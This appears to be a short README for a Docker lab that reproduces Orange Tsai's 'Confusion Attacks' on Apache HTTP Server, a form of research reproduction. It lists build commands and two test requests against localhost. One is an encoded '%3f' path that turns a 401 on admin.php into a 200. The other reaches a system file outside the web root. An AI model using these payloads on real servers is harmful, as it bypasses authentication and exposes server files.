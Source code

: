 # orange-confusion-attacks

Repro for Confusion Attacks: Exploiting Hidden Semantic Ambiguity in Apache HTTP Server!
Discovered by https://x.com/orange_8361

https://blog.orange.tw/posts/2024-08-confusion-attacks-en/

## To build and run:

```
docker build -t my-php-website .
docker run -p 80:80 my-php-website
```

## To repro the issues

### Filename Confusion
```
http://127.0.0.1/admin.php => 401
http://127.0.0.1/admin.php%3ftest.php => 200
```

### DocumentRoot Confusion
```
http://127.0.0.1/html/usr/share/doc/hostname/copyright%3f
```
